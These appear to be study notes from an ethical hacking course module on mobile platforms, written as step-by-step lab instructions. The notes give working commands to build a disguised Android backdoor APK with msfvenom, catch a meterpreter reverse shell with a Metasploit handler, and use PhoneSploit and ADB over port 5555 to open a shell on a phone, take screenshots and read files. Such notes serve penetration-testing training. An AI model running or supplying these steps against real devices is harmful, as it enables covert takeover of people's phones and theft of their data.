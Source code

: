 ## Module 17: Hacking Mobile Platforms

###### Hack an Android device by creating binary payloads using metasploit
>[!check] Using Binary Payloads
>- Using metasploit to creaate binary payloads to gain control of a use's phone
>- `service postgresql start`
>- `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[IP]  LPORT=4444 R > Desktop/Backdoor.apk`
>- Share the backdoor file with the host. Start up meterpeter
>- use exploit/multi/handler
>	- `set payload android/meterpreter/reverse_tcp` and press Enter
>	- `set LHOST 10.10.1.13`
>	- `exploit`
>- Open the program on the client
>- Back on the meterpreter select session 1 and your in!

###### Hack the Android platform through ADB using PhoneSploit
>[!check] Using PhoneSploit
>- Android Debug Bridge (ADB) is a versatile command-line tool that lets you communicate with a device. 
>- ADB facilitates a variety of device actions such as installing and debugging apps, and provides access to a Unix shell that you can use to 
run several different commands on a device.
>- Developers connect to ADB on Android devices by using a USB cable, but it is also possible to do so wirelessly by enabling a daemon server 
at TCP port 5555 on the device.
>	- `cd PhoneSploit Directory`
>	- `python3 -m pip install colorama`
>	- `python3 phonesploit.py`
>		- Press 3: connect a new phone
>		- Enter the Phone's IP- connects to phone on port 5555
>		- Press 4 : to access shell 
>		- Find a file that you would like to download/take
>		- exit
>		- press 7: screen shot a picture of the phone  
>		- press 14: displaying the installed apps on the target Android device
>		- press 15: to open any apps
>		- com.android.calculator2
>		- p
>			- Navigates to additional tools
>			- Press 18 :shows interface 
>			- 21 Netstat
>			- press 9 to download

> Using ADB
	adb connect 192.168.0.4:5555
	adb devices -l
	adb shell
	cd SD Card
	ls 
	cat file.txt
